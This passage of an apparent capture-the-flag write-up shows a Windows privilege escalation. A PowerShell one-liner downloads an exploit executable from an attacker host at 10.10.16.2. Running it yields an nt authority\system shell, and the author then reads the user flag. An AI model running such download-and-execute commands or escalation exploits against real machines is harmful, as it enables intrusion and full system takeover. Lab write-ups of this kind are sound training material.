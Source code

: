 ```
c:\Users>powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.16.2:9999/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.16.2:9999/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"

c:\Users>dir c:\Users\Public\Downloads\
dir c:\Users\Public\Downloads\
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of c:\Users\Public\Downloads

29/01/2023  04:50 ��    <DIR>          .
29/01/2023  04:50 ��    <DIR>          ..
29/01/2023  04:51 ��           250.295 40564.exe
               1 File(s)        250.295 bytes
               2 Dir(s)   4.697.464.832 bytes free
```

Now that the file was downloaded, all I needed to do is to execute the file.

```
c:\Users\Public\Downloads>40564.exe
40564.exe

c:\Windows\System32>whoami
whoami
nt authority\system

c:\Windows\System32>
```

Now that I was `nt authority\system` which is equivalent to `root` in debian based system, I could retrieve both, `user's` and the `root's` flag.

```
c:\Windows\System32>cd c:\users
cd c:\users

c:\Users>cd babis
cd babis

c:\Users\babis>cd Desktop
cd Desktop

c:\Users\babis\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of c:\Users\babis\Desktop

11/02/2022  03:54 ��    <DIR>          .
11/02/2022  03:54 ��    <DIR>          ..
29/01/2023  02:52 ��                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   4.697.452.544 bytes free

c:\Users\babis\Desktop>type user.txt
type user.txt
[REDACTED]

c:\Users\babis\Desktop>cd ..
cd ..

```
